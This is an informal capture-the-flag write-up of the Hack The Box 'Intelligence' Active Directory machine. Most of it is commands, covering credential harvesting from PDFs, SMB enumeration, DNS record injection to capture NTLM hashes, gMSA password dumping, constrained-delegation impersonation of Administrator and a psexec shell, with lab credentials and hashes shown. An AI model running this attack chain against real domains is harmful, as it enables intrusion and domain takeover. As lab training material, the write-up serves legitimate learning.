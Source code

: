 ### Intelligence

So, the usual domain controller ports are open

after looking at some usual AD things  for some time, like SMB shares, ASREP roasting, lookupsids.py, none of them seem to have worked

now, lets do a bit of web enum

so the documents that we have on the site have a format on them, so we can try to see if there are more files in those format

`python3 sc.py  > pdflist`

lets bruteforce this with ffuf, we got a bunch of pdf files, out of which, one of them gives us the creds for a molina user

`pdf:tiffany.molina:NewIntelligenceCorpUser9876`

so user is as simple as this, lets have a look at smbmap

`smbmap -H 10.10.10.248 -u 'tiffany.molina' -p 'NewIntelligenceCorpUser9876'`

we have read access on IT and USers (which are the only useful ones), so the Users dir gives us the user flag if we do

`smbmap -H 10.10.10.248 -u 'tiffany.molina' -p 'NewIntelligenceCorpUser9876' -R Users -A user.txt`

R names a share, and A names the files with that name to be picked up

we got some creds, now,

`rpcclient 10.10.10.248 -U 'tiffany.molina'` with her password gives us some flexibility to enumerate

lets save users to users files

we see a script in smb share for tiffany, so the script is basically querying the ADDS database for objects and grepping for a name of web*

`python3 dnstool.py -u intelligence.htb\\tiffany.molina -p NewIntelligenceCorpUser9876 -a add -r webxxx.intelligence.htb -d 10.10.14.77 10.10.10.248`

got the ntlm for ted, and his password

lets do ldapdomaindump, we find the svc_int is allowed to do kerberos deleagtion

if we run 

3d3f5b98dd8e79086165990f2b1707f5
b3a2dc11db1f8b39ae21ac970ed3144a

`python3 gMSADumper.py -u ted.graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248`

```
Users or groups who can read password for svc_int$:
> DC$
> itsupport
svc_int$:::47e89a6afd68e3872ef1acaf91d0b2f7
```

this is called Kerberos delegation

`getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator -dc-ip 10.10.10.248 intelligence.htb/svc_int -hashes 47e89a6afd68e3872ef1acaf91d0b2f7:47e89a6afd68e3872ef1acaf91d0b2f7`

the first part of this hash is pretty useless

```
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass -dc-ip 10.10.10.248 intelligence.htb/Administrator@10.10.10.248
```